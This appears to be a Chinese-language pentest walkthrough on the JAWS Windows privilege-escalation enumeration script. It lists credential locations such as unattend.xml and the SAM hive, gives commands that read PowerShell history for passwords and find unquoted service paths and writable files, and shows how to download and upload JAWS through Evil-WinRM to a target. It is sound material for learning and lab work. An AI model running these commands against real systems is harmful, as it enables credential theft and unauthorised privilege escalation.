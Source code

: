 ## 🛠️ JAWS 的其他檢查點

### **1. 常見密碼位置**
```powershell
# JAWS 會檢查:
C:\unattend.xml                    # Windows 安裝設定 (可能含密碼)
C:\Windows\Panther\Unattend.xml    # 同上
C:\Windows\system32\config\SAM     # 本地帳戶雜湊
C:\Users\*\AppData\Roaming\...     # 應用程式設定
```

### **2. PowerShell 歷史**
```powershell
# 查看命令歷史 (可能有密碼!)
cat C:\Users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### **3. 可寫的服務路徑**
```powershell
# 尋找可以替換執行檔的服務
Get-WmiObject Win32_Service | Where-Object {$_.PathName -match "^[^\""]"}
```

### **4. 弱權限檔案/資料夾**
```powershell
# 尋找普通用戶可寫的系統檔案
icacls "C:\Program Files\*" | findstr "(F) (M) (W)"
```

## 📝 手動執行 JAWS

```powershell
# 1. 下載 JAWS (在 Kali)
wget https://raw.githubusercontent.com/411Hall/JAWS/master/jaws-enum.ps1

# 2. 上傳到目標 (在 Evil-WinRM)
upload jaws-enum.ps1

# 3. 執行
.\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt

# 4. 查看結果
cat JAWS-Enum.txt

# 5. 或直接輸出到螢幕
.\jaws-enum.ps1
```

## 🔍 JAWS 輸出範例

```
[+] Checking $Recycle.Bin for interesting files...
    C:\$Recycle.Bin\S-1-5-21-xxx\$Rpasswords.txt
    C:\$Recycle.Bin\S-1-5-21-xxx\$Rbackup.xml
    
[!] Found potentially sensitive files in Recycle Bin!

[+] Checking PowerShell History...
    Found: net user Administrator NewPass123!
    
[!] Credentials found in PowerShell history!

[+] Checking for unquoted service paths...
```